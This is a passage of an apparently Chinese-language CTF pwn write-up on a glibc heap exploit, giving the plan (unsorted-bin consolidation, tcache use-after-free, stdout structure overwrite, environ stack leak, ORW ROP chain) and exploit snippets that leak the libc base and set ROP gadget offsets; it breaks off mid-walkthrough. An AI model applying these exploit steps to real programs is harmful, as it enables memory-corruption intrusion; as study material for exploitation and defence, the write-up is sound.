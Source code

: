 ### 思路

主要是是通过在 unsorted bin 中向前合并堆块，以此来申请 chunk 改变 UAF 存留在 tcache bin 中的指针，然后申请第二次就可以修改 \_IO\_2\_1_stdout_ 结构体，用 environ 泄露出栈地址以获得程序的返回地址，然后把重叠的堆块再次释放，修改 size 和 fd 后再申请两次，在第二次直接传入在程序返回地址处构造的 orw 链就能成功 getshell 了。

### 详细流程

```bash
for i in range(7):
    add(0x80,'aaaa')

add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x10,'aaaa')

for i in range(7):
    delete(i)
```

先填满 tcache bin，然后为下面的合并申请几个 chunk

[![](assets/1701612363-1ca3479e61a7f1873b7e14d59d3971fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212940-a9932a62-19a5-1.png)

[![](assets/1701612363-9e9c8632e1d30ea49ea89ff09ba14be3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212945-acd4737a-19a5-1.png)

```bash
UAF(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
leak("libc_base ",libc_base)
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

environ = libc_base + libc.sym['environ']
leak('environ ',environ)
read_addr = libc_base + libc.sym['read']
open_addr = libc_base + libc.sym['open']
puts_addr = libc_base + libc.sym['puts']

pop_rdi_ret = libc_base + 0x0000000000023b6a
pop_rsi_ret = libc_base + 0x000000000002601f
pop_rdx_ret = libc_base + 0x0000000000142c92
```

然后 UAF 泄露一下 libc\_base

[![](assets/1701612363-3472a972374895924bafbdf35bfee94f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213000-b5a3c44c-19a5-1.png)

```bash
delete(7)
```

